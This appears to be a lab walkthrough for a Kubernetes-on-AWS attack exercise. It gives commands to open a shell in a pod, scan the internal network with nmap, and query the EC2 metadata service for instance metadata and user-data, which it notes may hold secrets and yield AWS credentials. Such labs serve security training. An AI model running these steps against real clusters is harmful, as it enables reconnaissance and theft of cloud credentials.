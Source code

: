 # First step within the cluster

- Start a new pod on the cluster: `kubectl create -f pod.yaml`
- Ensure the pod has been started: `kubectl get pod -n business-app`
- Once started, get an interactive shell on the pod: `kubectl exec my-pod -n business-app -it -- /bin/bash`

# Scanning the cluster

You can use `ip a` to get the IP adresse of your pod and identify the range to
scan.

```
nmap -sS -p 8080 {PLACEHOLDER_LAB_CIDR}
```

The command may take few minutes. Feel free to continue inside a new
`kubectl exec` process.


# Accessing the metadata/user API

## Instance metadata API

https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html

```shell
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/
```

You can explore the metadata API and discover that you are considered to be
the EC2 instance the pod runs on. You can even get an AWS token with its
privileges

## User API

User API are script which are used to initialize the EC2. They may sometime
contain secret, even if it is unadvised.

https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-add-user-data.html

```shell
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/user-data
```
